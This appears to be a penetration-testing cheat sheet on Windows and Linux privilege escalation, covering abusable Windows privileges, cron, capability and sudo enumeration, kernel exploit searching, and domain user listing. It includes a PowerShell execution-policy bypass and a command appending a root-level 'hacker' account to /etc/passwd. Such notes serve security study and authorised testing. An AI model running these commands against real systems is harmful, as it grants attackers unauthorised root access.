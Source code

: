 ### Windows Privilege Abuse
- `SeImpersonatePrivilege`
- `SeBackupPrivilege`
- `SeAssignPrimaryToken`
- `SeLoadDriver`
- `SeDebug`
### PowerUp.ps1
```powershell
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope CurrentUser -Force
```
# Linux Privilege Escalation
### Insecure File Permission
- Locate an executable file that not only allows us write access, but also runs at an elevated privilege level.
#### Abusing Cron Jobs
```shell
# List scheduled cron jobs: 
crontab -l #local 
ls -al /etc/cron* #system-wide
# Inspect the cron log file (`/var/log/cron.log`) for running cron jobs
grep "CRON" /var/log/syslog
```
#### Abusing Password Authentications
-  For backwards compatibility, if a password hash is present in the second column of an `/etc/passwd` user record, it is considered valid for authentication and takes precedence over the respective entry in `/etc/shadow`.
	- If we can write into `/etc/passwd`, we can effectively set an arbitrary password for any account.
	```shell
	openssl passwd [Password]
	echo "hacker:[Hash]:0:0:root:/root:/bin/bash" >> /etc/passwd
	```
### Insecure System Components
#### Setuid and Capabilities
- `Setuid`: When a user or a system-automated script launches a process, it inherits the UID/GID of its initiating script: this is known as the real UID/GID. On the other hand, effective UID/GID represents the actual value being checked when performing sensitive operations.
- `Capabilities`: extra attributes that can be applied to processes, binaries, and services to assign specific privileges normally reserved for administrative operations, such as traffic capturing or adding kernel modules.
	```shell
	/usr/sbin/getcap -r / 2>/dev/null
	```
#### Sudo Privileges
```shell
sudo -l
https://gtfobins.github.io/
```
#### Kernel Exploits
```shell
# Example
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"
```
# AD Enumeration
### Using Legacy Windows Tools
```shell
net user /domain
```
